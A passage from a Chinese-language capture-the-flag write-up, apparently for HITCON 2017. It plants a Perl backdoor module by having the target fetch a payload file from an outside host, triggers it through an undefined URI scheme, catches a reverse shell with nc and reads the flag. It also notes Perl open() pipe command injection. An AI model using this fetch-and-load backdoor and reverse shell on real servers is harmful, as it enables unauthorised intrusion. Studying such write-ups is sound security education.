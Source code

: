 ```perl
    print "Content-Length: " . length($global_page) . "\r
Connection: close\r
Content-Type: text\/html\r\n\r\n" . $global_page;
}
```

然后，将其部署到服务器上（反弹ip改为我们服务器的ip）。

```Html
http://10.211.55.17/index.php?filename=URI/moxiaoxi.pm&url=http://xx.xx.xx.x/backdoor.txt
```

```
└── sandbox
    └── 1924cf16182a5279a02c5ffb573daaa4
        └── URI
            └── moxiaoxi.pm

```

这样就在网站上新建了一个URI目录，目录下有moxiaoxi.pm文件，文件内容为我们的backdoor。

在服务器上监听端口，再访问`10.211.55.17/index.php?filename=xxx&url=moxiaoxi://moxiaoxi.info`就能获得一个反弹shell。这里访问`moxiaoxi://moxiaoxi.info`时，moxiaoxi是未定义模块，所以会自动搜索并加载URI中的moxiaoxi.pm 模块。

```bash
 ➜  html nc -w 1 -k -lvv 1235
Ncat: Version 6.40 ( http://nmap.org/ncat )
Ncat: Listening on :::1235
Ncat: Listening on 0.0.0.0:1235
Ncat: Connection from 13.115.136.15.
Ncat: Connection from 13.115.136.15:39746.
 03:10:35 up 2 days,  9:35,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
Linux ip-172-31-28-110 4.4.0-1039-aws #48-Ubuntu SMP Wed Oct 11 15:15:01 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/
/usr/sbin/apache: 0: can't access tty; job control turned off
$ ./readflag
hitcon{Perl_<3_y0u}

```

### 其他解法

参考ricterz的博客，其知识点是，另外一个命令注入，是perl的feature，在open下可以执行命令。

```bash
➜  test cat test.pl
open(FD, "whoami|");
print <FD>;
➜  test perl test.pl
moxiaoxi
➜  test
```

